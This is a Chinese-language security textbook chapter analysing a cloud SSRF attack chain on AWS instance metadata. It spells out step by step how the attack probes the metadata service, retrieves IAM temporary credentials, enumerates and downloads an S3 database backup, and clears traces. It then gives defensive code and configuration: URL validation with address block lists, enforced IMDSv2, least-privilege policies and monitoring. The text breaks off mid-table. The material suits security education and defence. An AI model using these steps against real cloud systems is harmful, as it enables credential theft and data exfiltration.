




## 12.3.2 案例二：云元数据服务SSRF攻击链

### 概述

SSRF（Server-Side Request Forgery，服务端请求伪造）是一种允许攻击者让服务器代为发起请求的漏洞。当 SSRF 与云元数据服务结合时，攻击者可以从一台普通的 Web 服务器出发，一路穿透到云平台的 IAM 凭证系统，最终获取对整个云环境的控制权。2019 年的 Capital One 数据泄露事件就是这一攻击路径的典型案例——攻击者通过 SSRF 获取 EC2 元数据中的 IAM 凭证，最终窃取了超过 1 亿用户的个人信息，直接经济损失超过 1.5 亿美元。

本案例还原一个真实的企业级 SSRF 攻击链：从漏洞发现到凭证获取，从横向移动到数据窃取，并在每个阶段给出详细的防御方案。

---

### SSRF 基础知识

#### 什么是 SSRF

SSRF 是指攻击者诱使服务端应用程序向攻击者指定的目标发起 HTTP 请求。由于请求是从服务器内部发出的，攻击者可以借此访问服务器所在内网中的资源——包括数据库、内部 API、管理接口以及云元数据服务。



#### SSRF 的两种类型

| 类型 | 特征 | 危害程度 | 典型表现 |
|------|------|----------|----------|
| **基础型 SSRF** | 服务器将目标的响应直接返回给攻击者 | 高 | 能读取响应内容，直接获取数据 |
| **盲注型 SSRF** | 服务器不返回响应内容 | 中 | 只能通过响应时间、状态码等侧信道推断结果 |

本案例属于基础型 SSRF，因为 Web 应用的 URL 预览功能会将目标页面的内容返回给用户，攻击者可以直接读取元数据服务的响应。

#### SSRF 的常见触发点

SSRF 不只出现在显而易见的"URL 预览"功能中，以下是企业应用中常见的 SSRF 入口：

- **URL 预览/抓取功能**：社交分享预览、网页截图、链接展开
- **Webhook 回调**：允许用户配置回调 URL 的通知系统
- **文件导入**：从 URL 导入 CSV/JSON/XML 的数据导入功能
- **图片处理**：从 URL 加载图片的头像上传、图片水印功能
- **PDF 生成**：将 URL 转为 PDF 的报告导出功能
- **XML 解析**：处理含外部实体引用的 XML（XXE 也是一种 SSRF）
- **重定向未校验**：跟随 HTTP 重定向到达内部地址

---

### 云元数据服务原理

#### IMDS 是什么

Instance Metadata Service（实例元数据服务，IMDS）是云平台提供的一项基础服务，允许运行在虚拟机中的代码查询自身实例的元数据——包括实例 ID、安全组、IAM 角色临时凭证等。



IMDS 绑定在链路本地地址 `169.254.169.254` 上，这个地址只对实例本身可达，外部网络无法直接访问——这在设计上是安全的。但如果实例上运行的应用存在 SSRF 漏洞，攻击者就可以通过应用间接访问 IMDS。

#### IMDSv1 vs IMDSv2

AWS 提供了两个版本的元数据服务，安全特性差异巨大：

| 特性 | IMDSv1 | IMDSv2 |
|------|--------|--------|
| 访问方式 | 直接 GET 请求即可 | 必须先 PUT 获取 Token |
| 认证机制 | 无认证 | 基于 Token 的会话认证 |
| Token 获取 | 不需要 | `PUT /latest/api/token`，需设置 TTL |
| SSRF 防护 | 无防护 | 有一定防护（见下文分析） |
| 请求头要求 | 无特殊要求 | 需 `X-aws-ec2-metadata-token` 头 |
| 默认状态 | 所有实例默认支持 | 需显式启用 |

**IMDSv2 的防护原理**：

IMDSv2 要求先通过 PUT 请求获取一个 Token，再用 Token 去请求元数据。这使得简单的 SSRF 难以直接利用，因为大多数 SSRF 只能发起 GET 请求，无法完成 PUT + Token 获取的两步流程。

**IMDSv2 的局限性**：

IMDSv2 并非万能药。以下情况仍可能被绕过：

1. **应用层代理转发**：如果应用代码会自动处理 Token 获取流程（如 AWS SDK），SSRF 仍可利用
2. **容器环境的 hop limit**：ECS 容器的网络跳数限制配置不当会导致 Token 获取失败，但某些配置下仍可绕过
3. **开放代理**：如果实例上运行了 Squid 等 HTTP 代理，攻击者可通过代理发送 PUT 请求
4. **语言/框架特性**：某些 HTTP 客户端库会自动将 POST 转为 GET 重定向，降低防护效果

#### 各云平台元数据服务对比

| 云平台 | 元数据地址 | 认证机制 | 文档 |
|--------|-----------|----------|------|
| AWS | 169.254.169.254/latest/meta-data/ | IMDSv2 (可选) | [EC2 Instance Metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html) |
| 阿里云 | 100.100.100.200/latest/meta-data/ | RAM角色临时凭证 | [实例元数据](https://help.aliyun.com/zh/ecs/userguide/instance-metadata.html) |
| 腾讯云 | metadata.tencentyun.com/latest/meta-data/ | CAM角色临时凭证 | [实例元数据](https://cloud.tencent.com/document/product/213/4934) |
| GCP | metadata.google.internal/computeMetadata/v1/ | 需 `Metadata-Flavor: Google` 头 | [GCE Metadata](https://cloud.google.com/compute/docs/metadata/overview) |
| Azure | 169.254.169.254/metadata/instance?api-version=2021-02-01 | 需 `Metadata: true` 头 | [IMDS](https://learn.microsoft.com/en-us/azure/virtual-machines/instance-metadata-service) |

---

### 攻击链完整还原

以下是本次案例的完整攻击链，从初始漏洞发现到最终数据窃取，共经历五个阶段。



#### 阶段一：发现 SSRF 漏洞

**目标**：确认应用存在 SSRF 漏洞，并评估其可利用性。

攻击者在目标 SaaS 平台的 Web 应用中发现了一个"URL 预览"功能，用于生成外部链接的卡片预览。

**探测请求**：

```http
POST /api/preview HTTP/1.1
Host: target-saas.example.com
Content-Type: application/json
Authorization: Bearer <user-token>

{"url": "http://example.com/page"}
```

正常的响应会返回 `example.com` 页面的标题、描述和缩略图。

**验证 SSRF**：

```json
{"url": "http://169.254.169.254/latest/meta-data/"}
```

服务器返回了如下内容，确认 SSRF 漏洞存在，且应用会将目标响应完整返回：

```json
{
  "title": "ami-id",
  "description": "ami-0abcdef1234567890\ninstance-id\ninstance-type\nlocal-hostname\nlocal-ipv4\n...",
  "thumbnail": null
}
```

**漏洞确认清单**：

- [x] 能触发服务端发起 HTTP 请求
- [x] 能访问内网地址（169.254.x.x）
- [x] 响应内容会返回给攻击者（非盲注型）
- [x] 无请求频率限制
- [x] 无目标地址白名单过滤

#### 阶段二：探测元数据服务

确认 SSRF 可用后，攻击者系统地枚举元数据服务的目录结构，收集实例信息。

**枚举顶层元数据**：

```json
{"url": "http://169.254.169.254/latest/meta-data/"}
```

返回值中包含以下关键路径：

```text
ami-id
ami-launch-index
hostname
instance-action
instance-id
instance-type
local-hostname
local-ipv4
placement/
public-hostname
public-ipv4
security-groups
iam/
network/interfaces/
```

**收集实例关键信息**：

```json
// 实例ID
{"url": "http://169.254.169.254/latest/meta-data/instance-id"}
// 返回: i-0a1b2c3d4e5f67890

// 实例类型
{"url": "http://169.254.169.254/latest/meta-data/instance-type"}
// 返回: m5.xlarge

// 所在安全组
{"url": "http://169.254.169.254/latest/meta-data/security-groups"}
// 返回: webapp-sg, default
```

**检查 IAM 角色**：

```json
{"url": "http://169.254.169.254/latest/meta-data/iam/"}
// 返回:
// info
// security-credentials/
```

`security-credentials/` 路径的存在意味着该实例绑定了 IAM 角色，这是攻击者最关注的目标。

#### 阶段三：获取 IAM 临时凭证

这是攻击链中最关键的一步——获取 IAM 角色的临时凭证。

**获取角色名称**：

```json
{"url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/"}
// 返回: webapp-role
```

**获取临时凭证**：

```json
{"url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/webapp-role"}
```

返回的完整凭证信息：

```json
{
    "Code": "Success",
    "LastUpdated": "2024-01-15T08:32:15Z",
    "Type": "AWS-HMAC",
    "AccessKeyId": "ASIA1234567890EXAMPLE",
    "SecretAccessKey": "YOUR_AWS_SECRET_KEY",
    "Token": "FwoGZXIvYXdzEBYaDHqa0AP1...（完整Token约2KB）",
    "Expiration": "2024-01-15T14:32:15Z"
}
```

**凭证类型说明**：

| 字段 | 含义 | 安全影响 |
|------|------|----------|
| `AccessKeyId` | 访问密钥 ID | 以 `ASIA` 开头表示临时凭证（区别于长期密钥 `AKIA`） |
| `SecretAccessKey` | 签名密钥 | 用于对 AWS API 请求进行签名 |
| `Token` | 会话 Token | 临时凭证必需，约 2KB 大小 |
| `Expiration` | 过期时间 | 通常为 1-6 小时，过期后凭证失效 |

> **关键点**：临时凭证有过期时间，攻击者需要在窗口期内完成后续操作。这也是为什么攻击者会尽快进行横向移动。

#### 阶段四：横向移动与枚举

使用获取的临时凭证，攻击者从 Web 服务器跳转到 AWS 控制平面。

**配置凭证并验证身份**：

```bash
export AWS_ACCESS_KEY_ID=ASIA1234567890EXAMPLE
export AWS_SECRET_ACCESS_KEY=YOUR_AWS_SECRET_KEY
export AWS_SESSION_TOKEN=FwoGZXIvYXdzEBYaDHqa0AP1...

# 验证当前身份
aws sts get-caller-identity
```

返回：

```json
{
    "UserId": "AROA1234567890EXAMPLE:webapp-i-0a1b2c3d4e5f67890",
    "Account": "123456789012",
    "Arn": "arn:aws:sts::123456789012:assumed-role/webapp-role/webapp-i-0a1b2c3d4e5f67890"
}
```

**枚举已授权资源**：

```bash
# 枚举S3 Bucket
aws s3 ls

# 枚举EC2实例
aws ec2 describe-instances --query 'Reservations[].Instances[].[InstanceId,State.Name,Tags[?Key==`Name`].Value|[0]]' --output table

# 枚举Lambda函数
aws lambda list-functions --query 'Functions[].[FunctionName,Runtime]' --output table

# 枚举RDS数据库
aws rds describe-db-instances --query 'DBInstances[].[DBInstanceIdentifier,Endpoint.Address,DBInstanceStatus]' --output table

# 检查当前角色的完整权限
aws iam list-attached-role-policies --role-name webapp-role
aws iam list-role-policies --role-name webapp-role
```

**发现的资源清单**（本案例中 webapp-role 拥有的权限远超预期）：

| 资源类型 | 发现内容 | 权限范围 |
|----------|----------|----------|
| S3 | `company-db-backups`、`webapp-static-assets`、`internal-logs` | s3:GetObject, s3:ListBucket |
| EC2 | 12 台实例（Web/Worker/DB） | ec2:DescribeInstances |
| RDS | 2 个 PostgreSQL 实例 | rds:DescribeDBInstances |
| Lambda | 5 个函数（包括数据处理管道） | lambda:ListFunctions |

#### 阶段五：数据窃取

攻击者锁定 S3 中的数据库备份文件，将其下载到外部。

```bash
# 列出数据库备份Bucket
aws s3 ls s3://company-db-backups/

# 输出:
# 2024-01-14 22:00:00   2048576000 production-2024-01-14.sql.gz
# 2024-01-07 22:00:00   1987654321 production-2024-01-07.sql.gz
# 2023-12-31 22:00:00   1876543210 production-2023-12-31.sql.gz

# 下载最新备份
aws s3 cp s3://company-db-backups/production-2024-01-14.sql.gz ./

# 检查文件完整性
ls -lh production-2024-01-14.sql.gz
# -rw-r--r-- 1 user user 1.9G Jan 15 03:42 production-2024-01-14.sql.gz
```

**数据影响评估**：

该数据库备份包含以下敏感数据：

| 数据类型 | 记录数量 | 敏感等级 |
|----------|----------|----------|
| 用户个人信息 | 120 万条 | 极高（PII） |
| 用户密码哈希 | 120 万条 | 极高 |
| 支付信息 | 45 万条 | 极高（PCI） |
| API 密钥和内部配置 | ~500 条 | 高 |
| 内部通信日志 | ~200 万条 | 中 |

#### 阶段六：清理痕迹（高级攻击者）

高级攻击者会尝试掩盖攻击痕迹：

```bash
# 删除CloudTrail中相关事件（如果有权限）
# 注意：这需要额外的cloudtrail:DeleteEvents权限，大多数实例角色不具备

# 清除本地AWS CLI历史
history -c
rm -rf ~/.aws/
unset AWS_ACCESS_KEY_ID AWS_SECRET_ACCESS_KEY AWS_SESSION_TOKEN
```

---

### 深度根因分析

本案例的安全事故涉及四个层面的缺陷，每个层面的漏洞单独都不足以导致如此严重的影响，但串联在一起就形成了一条完整的攻击链。



#### 应用层：URL 预览功能未做地址验证

**问题**：`/api/preview` 接口接受任意 URL，没有以下任何防护措施：

- 无 URL 协议白名单（允许 `http://`、`https://`、`file://`、`gopher://` 等）
- 无目标地址黑名单（允许访问 `169.254.x.x`、`10.x.x.x`、`172.16.x.x` 等内网地址）
- 无 DNS 解析后的二次校验（存在 DNS Rebinding 攻击风险）
- 无请求频率限制（允许大规模枚举）
- 无响应内容过滤（直接透传元数据服务的 JSON 响应）

#### 实例层：使用 IMDSv1

**问题**：EC2 实例使用 IMDSv1，任何能够发起 HTTP 请求的应用都可以直接访问元数据服务，无需任何认证。IMDSv1 的设计假设是"只有本机进程能访问链路本地地址"，但 SSRF 打破了这个假设。

**背景知识**：AWS 在 2019 年推出 IMDSv2，要求先通过 PUT 请求获取 Token。但 IMDSv1 在很多旧实例中仍是默认配置。新实例虽然默认支持 IMDSv2，但如果未显式设置为 "仅 IMDSv2"，v1 仍然可用。

#### IAM 层：webapp-role 权限过大

**问题**：webapp-role 附加了 `PowerUserAccess` 策略，给予了几乎所有 AWS 服务的读写权限，远超 Web 应用实际需要。

**最小权限分析**：

| webapp-role 实际需要的权限 | webapp-role 实际拥有的权限 |
|--------------------------|--------------------------|
| S3：仅读取 `webapp-static-assets` | S3：读取所有 Bucket |
| CloudWatch：写入日志 | EC2：完整描述权限 |
| SQS：收发消息 | RDS：完整描述权限 |
| SecretsManager：读取应用配置 | Lambda：完整描述权限 |

#### 监控层：无安全告警

**问题**：没有任何监控机制能够检测以下异常行为：

- 实例对元数据服务的异常访问模式（正常应用不会枚举 `/latest/meta-data/` 目录）
- IAM 角色的异常 API 调用（正常 Web 应用不会执行 `aws s3 ls`）
- 大规模 S3 数据下载（1.9GB 备份文件的下载未触发任何告警）

---

### 完整修复方案

修复需要从四个层面同时推进，形成纵深防御。

#### 第一层：应用层防御

**1. URL 安全校验函数**

```python
import ipaddress
import socket
import re
from urllib.parse import urlparse
from functools import lru_cache

# 元数据服务和内网地址段
BLOCKED_CIDRS = [
    ipaddress.ip_network('169.254.0.0/16'),   # 链路本地地址（含元数据服务）
    ipaddress.ip_network('10.0.0.0/8'),        # 私有地址A类
    ipaddress.ip_network('172.16.0.0/12'),     # 私有地址B类
    ipaddress.ip_network('192.168.0.0/16'),    # 私有地址C类
    ipaddress.ip_network('127.0.0.0/8'),       # 回环地址
    ipaddress.ip_network('0.0.0.0/8'),         # 当前网络
    ipaddress.ip_network('100.64.0.0/10'),     # CGNAT地址
    ipaddress.ip_network('fd00::/8'),          # IPv6 ULA
    ipaddress.ip_network('fe80::/10'),         # IPv6 链路本地
]

BLOCKED_DOMAINS = [
    'metadata.google.internal',
    'metadata.tencentyun.com',
    'instance-data',
]

@lru_cache(maxsize=1024)
def resolve_hostname(hostname: str) -> list:
    """解析域名为IP地址列表"""
    try:
        results = socket.getaddrinfo(hostname, None)
        return [r[4][0] for r in results]
    except socket.gaierror:
        return []

def is_ip_blocked(ip_str: str) -> bool:
    """检查IP是否在黑名单中"""
    try:
        ip = ipaddress.ip_address(ip_str)
        for cidr in BLOCKED_CIDRS:
            if ip in cidr:
                return True
        if ip.is_private or ip.is_loopback or ip.is_link_local:
            return True
        return False
    except ValueError:
        return True  # 无效IP视为不安全

def validate_url(url: str) -> tuple[bool, str]:
    """
    验证URL是否安全，防止SSRF攻击。
    返回 (is_safe, reason)
    """
    # 1. 解析URL
    try:
        parsed = urlparse(url)
    except Exception:
        return False, "URL解析失败"

    # 2. 协议白名单
    if parsed.scheme not in ('http', 'https'):
        return False, f"不允许的协议: {parsed.scheme}"

    # 3. 端口检查
    port = parsed.port
    if port and port not in (80, 443, 8080, 8443):
        return False, f"不允许的端口: {port}"

    # 4. 主机名检查
    hostname = parsed.hostname
    if not hostname:
        return False, "缺少主机名"

    # 5. 域名黑名单
    for blocked in BLOCKED_DOMAINS:
        if blocked in hostname:
            return False, f"域名匹配黑名单: {blocked}"

    # 6. 直接IP地址检查
    if is_ip_blocked(hostname):
        return False, f"目标IP在黑名单中: {hostname}"

    # 7. DNS解析后的二次检查（防止DNS Rebinding）
    resolved_ips = resolve_hostname(hostname)
    for ip in resolved_ips:
        if is_ip_blocked(ip):
            return False, f"DNS解析后IP在黑名单中: {hostname} -> {ip}"

    return True, "URL安全"
```

**2. DNS Rebinding 防护**

DNS Rebinding 是一种绕过 SSRF 防护的高级技术。攻击者注册一个域名，第一次解析返回正常 IP（通过白名单检查），第二次解析返回内网 IP（实际请求发送到内网）。

```python
import hashlib
import time

# DNS解析缓存，防止DNS Rebinding
_dns_cache = {}

def cached_resolve(hostname: str) -> list:
    """带缓存的DNS解析，防止DNS Rebinding攻击"""
    cache_key = hostname
    now = time.time()

    if cache_key in _dns_cache:
        cached_time, cached_ips = _dns_cache[cache_key]
        if now - cached_time < 300:  # 5分钟缓存
            return cached_ips

    ips = resolve_hostname(hostname)
    _dns_cache[cache_key] = (now, ips)
    return ips
```

**3. 请求频率限制与超时控制**

```python
import redis
import time

class SSRFRateLimiter:
    """基于Redis的请求频率限制"""

    def __init__(self, redis_client, max_requests=10, window_seconds=60):
        self.redis = redis_client
        self.max_requests = max_requests
        self.window = window_seconds

    def check_rate_limit(self, user_id: str, target_url: str) -> bool:
        """检查用户对目标URL的请求频率是否超限"""
        key = f"ssrf_limit:{user_id}:{hashlib.md5(target_url.encode()).hexdigest()}"
        now = time.time()

        # 使用滑动窗口计数
        pipe = self.redis.pipeline()
        pipe.zremrangebyscore(key, 0, now - self.window)
        pipe.zadd(key, {str(now): now})
        pipe.zcard(key)
        pipe.expire(key, self.window)
        results = pipe.execute()

        current_count = results[2]
        return current_count <= self.max_requests
```

**4. 完整的 URL 预览接口实现**

```python
from flask import Flask, request, jsonify
import requests
from urllib.parse import urlparse

app = Flask(__name__)

# 允许预览的域名白名单（可选，更严格）
PREVIEW_ALLOWED_DOMAINS = None  # 设置为None则使用黑名单模式

@app.route('/api/preview', methods=['POST'])
def preview_url():
    """URL预览接口 - 含完整SSRF防护"""
    data = request.get_json()
    url = data.get('url', '')

    # 1. URL验证
    is_safe, reason = validate_url(url)
    if not is_safe:
        return jsonify({"error": f"URL不允许访问: {reason}"}), 403

    # 2. 频率限制
    user_id = request.headers.get('X-User-ID', 'anonymous')
    if not rate_limiter.check_rate_limit(user_id, url):
        return jsonify({"error": "请求过于频繁"}), 429

    # 3. 发起请求（带超时和大小限制）
    try:
        resp = requests.get(
            url,
            timeout=5,                    # 5秒超时
            allow_redirects=False,        # 不跟随重定向
            headers={'User-Agent': 'PreviewBot/1.0'},
            stream=True                   # 流式读取，限制大小
        )

        # 4. 限制响应体大小（防止巨型响应耗尽内存）
        content = b''
        for chunk in resp.iter_content(1024):
            content += chunk
            if len(content) > 1024 * 1024:  # 最大1MB
                break

        # 5. 解析并返回安全的预览数据
        return jsonify({
            "title": extract_title(content.decode('utf-8', errors='ignore')),
            "description": extract_description(content.decode('utf-8', errors='ignore')),
            "status": resp.status_code
        })

    except requests.exceptions.Timeout:
        return jsonify({"error": "请求超时"}), 504
    except requests.exceptions.ConnectionError:
        return jsonify({"error": "连接失败"}), 502
    except Exception as e:
        return jsonify({"error": "预览失败"}), 500
```

#### 第二层：实例层防御

**1. 强制 IMDSv2**

```bash
# 单实例强制IMDSv2
aws ec2 modify-instance-metadata-options \
  --instance-id i-0a1b2c3d4e5f67890 \
  --http-token required \
  --http-endpoint enabled \
  --http-put-response-hop-limit 1

# 批量修改所有实例（配合AWS CLI + jq）
aws ec2 describe-instances --query 'Reservations[].Instances[].InstanceId' --output text | \
tr '\t' '\n' | \
while read instance_id; do
  echo "Updating $instance_id..."
  aws ec2 modify-instance-metadata-options \
    --instance-id "$instance_id" \
    --http-token required \
    --http-endpoint enabled \
    --http-put-response-hop-limit 1
done

# 验证配置
aws ec2 describe-instances --instance-ids i-0a1b2c3d4e5f67890 \
  --query 'Reservations[].Instances[].MetadataOptions' --output json
```

**hop-limit 说明**：

| hop-limit 值 | 场景 | 安全性 |
|---------------|------|--------|
| 1 | EC2 直接运行应用 | 最高（容器内请求会失败） |
| 2 | ECS 容器（awsvpc 网络模式） | 高 |
| 64 | EKS Pod（需要跨多层路由） | 较低 |

**2. 通过 SCP 强制 IMDSv2（组织级策略）**

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "RequireIMDSv2",
            "Effect": "Deny",
            "Action": "ec2:RunInstances",
            "Resource": "arn:aws:ec2:*:*:instance/*",
            "Condition": {
                "StringNotEquals": {
                    "ec2:MetadataHttpTokens": "required"
                }
            }
        }
    ]
}
```

**3. 使用 VPC 端点限制元数据访问（容器环境）**

在 ECS/EKS 容器环境中，可以通过 iptables 规则限制对元数据服务的访问：

```bash
# 在容器启动时执行，只允许特定进程访问元数据
# 获取容器网关
GATEWAY=$(ip route | awk '/default/ {print $3}')

# 允许已知安全的进程（如 AWS SDK）访问元数据
# 禁止Web应用进程直接访问
iptables -A OUTPUT -d 169.254.169.254 -p tcp --dport 80 \
  -m owner --uid-owner webapp-user -j DROP
```

#### 第三层：IAM 层防御

**1. 最小权限策略**

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "AllowStaticAssetsRead",
            "Effect": "Allow",
            "Action": [
                "s3:GetObject",
                "s3:ListBucket"
            ],
            "Resource": [
                "arn:aws:s3:::webapp-static-assets",
                "arn:aws:s3:::webapp-static-assets/*"
            ]
        },
        {
            "Sid": "AllowCloudWatchLogs",
            "Effect": "Allow",
            "Action": [
                "logs:CreateLogGroup",
                "logs:CreateLogStream",
                "logs:PutLogEvents"
            ],
            "Resource": "arn:aws:logs:*:*:log-group:/webapp/*"
        },
        {
            "Sid": "AllowSQSMessages",
            "Effect": "Allow",
            "Action": [
                "sqs:SendMessage",
                "sqs:ReceiveMessage",
                "sqs:DeleteMessage"
            ],
            "Resource": "arn:aws:sqs:*:*:webapp-task-queue"
        }
    ]
}
```

**2. 权限边界（Permission Boundary）**

权限边界定义了角色能够获得的最大权限范围，即使 IAM 策略授予了更多权限，也不会超过边界限制。

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "BoundaryAllow",
            "Effect": "Allow",
            "Action": [
                "s3:GetObject",
                "s3:ListBucket",
                "sqs:*",
                "logs:*",
                "secretsmanager:GetSecretValue"
            ],
            "Resource": "*"
        },
        {
            "Sid": "BoundaryDenyDangerous",
            "Effect": "Deny",
            "Action": [
                "iam:*",
                "organizations:*",
                "account:*",
                "sts:AssumeRole",
                "ec2:*",
                "rds:*",
                "lambda:*",
                "cloudtrail:*"
            ],
            "Resource": "*"
        }
    ]
}
```

**3. 使用 Access Analyzer 审计权限**

```bash
# 生成角色的实际使用分析报告
aws iam generate-credential-report

# 查找过度授权的角色
aws accessanalyzer list-findings \
  --analyzer-arn arn:aws:accessanalyzer:us-east-1:123456789012:analyzer/ConsoleAnalyzer \
  --filter '{"resourceType":{"eq":["AWS::IAM::Role"]},"status":{"eq":["ACTIVE"]},"findingType":{"eq":["OverPermissive"]}}'
```

#### 第四层：监控与检测

**1. CloudWatch 告警：元数据服务访问**

```python
# CloudWatch Logs Insights 查询
METADATA_ACCESS_QUERY = """
fields @timestamp, sourceIPAddress, eventName, requestParameters
| filter eventName like /GetMetadataCredentials/ or eventName like /GetMetadata/
| filter sourceIPAddress not in ["10.0.1.5", "10.0.1.6"]  # 排除已知的监控IP
| stats count(*) as accessCount by sourceIPAddress
| sort accessCount desc
| limit 20
"""
```

**2. GuardDuty 检测规则**

AWS GuardDuty 可以自动检测以下与本案例相关的异常行为：

- `UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration` — 从非 EC2 实例使用 EC2 实例凭证
- `Recon:IAMUser/NetworkPortUnreachable` — IAM 用户尝试访问未开放的端口
- `Trojan:EC2/DNSDataExfiltration` — 数据通过 DNS 查询外泄

**3. 自定义 CloudTrail 告警**

```yaml
# AWS CloudFormation: 异常S3下载告警
S3DownloadAlarm:
  Type: AWS::CloudWatch::Alarm
  Properties:
    AlarmName: S3LargeDownloadAlert
    AlarmDescription: "检测到异常的大文件S3下载"
    MetricName: DownloadedBytes
    Namespace: CustomSecurity
    Statistic: Sum
    Period: 300
    EvaluationPeriods: 1
    Threshold: 1073741824  # 1GB
    ComparisonOperator: GreaterThanThreshold
    AlarmActions:
      - !Ref SecurityAlertSNSTopic
```

**4. 实时检测脚本**

```bash
#!/bin/bash
# 实时监控实例角色的异常API调用

aws cloudtrail lookup-events \
  --lookup-attributes AttributeKey=Username,AttributeValue=webapp-role \
  --start-time "$(date -u -d '5 minutes ago' +%Y-%m-%dT%H:%M:%SZ)" \
  --query 'Events[].[EventTime,EventName,Resources[0].ResourceName]' \
  --output table

# 检测S3异常访问
aws cloudtrail lookup-events \
  --lookup-attributes AttributeKey=EventName,AttributeValue=GetObject \
  --start-time "$(date -u -d '5 minutes ago' +%Y-%m-%dT%H:%M:%SZ)" \
  --query 'Events[?contains(Resources[0].ResourceName, `db-backups`)]|[?EventTime > `'$(date -u -d '5 minutes ago' +%Y-%m-%dT%H:%M:%S)'`]'
```

---

### 防御体系总览

下表展示了每层防御措施的作用、成本和对本案例的防护效果：

| 防御层 | 措施 | 实施成本 | 防护效果 | 是否阻断本案例 |
|--------|------|----------|----------|---------------|
